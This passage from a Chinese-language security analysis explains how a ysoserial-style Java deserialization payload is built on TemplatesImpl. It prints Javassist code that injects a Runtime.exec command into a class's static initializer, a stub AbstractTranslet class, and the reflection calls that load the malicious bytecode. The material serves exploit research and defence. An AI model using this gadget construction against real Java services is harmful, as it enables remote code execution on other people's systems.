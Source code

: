 **<a class="reference-link" name="2.%20%E7%94%9F%E6%88%90%E5%B8%A6%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84Java%E5%AD%97%E8%8A%82%E7%A0%81"></a>2. 生成带命令执行的Java字节码**

这一步是要生成Java字节码并填充在TemplatesImpl对象的_bytecodes属性里。

```
ClassPool pool = ClassPool.getDefault();
final CtClass clazz = pool.get(StubTransletPayload.class.getName());//搜索并获取类
String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
        command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
        "\");";
((CtClass) clazz).makeClassInitializer().insertAfter(cmd);//在静态代码中插入恶意命令
clazz.setName("ysoserial.Pwner" + System.nanoTime());
final byte[] classBytes = clazz.toBytecode();
```

这里的StubTransletPayload类是自己构造的，并且一定要继承抽象类AbstractTranslet，该类的代码如下

```
public static class StubTransletPayload extends AbstractTranslet implements Serializable `{`
    public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException `{``}`
    @Override
    public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException `{``}`
`}`
```

**<a class="reference-link" name="3.%20%E5%8A%A8%E6%80%81%E4%BF%AE%E6%94%B9TemplatesImpl%E5%AF%B9%E8%B1%A1%E5%B1%9E%E6%80%A7"></a>3. 动态修改TemplatesImpl对象属性**

生成过Java字节码之后，就要将其填充至TemplatesImpl对象属性中

```
setFieldValue(templates, "_bytecodes", new byte[][] `{`
        classBytes`}`);//最关键的一步，填充字节码
setFieldValue(templates, "_name", "Pwnr");//必须要填，之后会有检查
setFieldValue(templates, "_tfactory", Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance());
```

`_tfactory` 字段是可选的，如果这里不赋值也不会有任何事情发生

### <a class="reference-link" name="0x5%20%E8%B0%83%E7%94%A8%E5%85%B3%E7%B3%BB"></a>0x5 调用关系

整理出了在反序列化触发时的调用链，如下图所示

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01057e029c0b4e39fd.png)



## 0x02 反序列化入口与命令执行点的连接

基本的命令执行点已经清楚了，本小节从命令执行点开始分析如何与反序列化readobject进行关联挂钩。在本节小结的时候会用正常的利用链挖掘思路分析该链的完整构造。
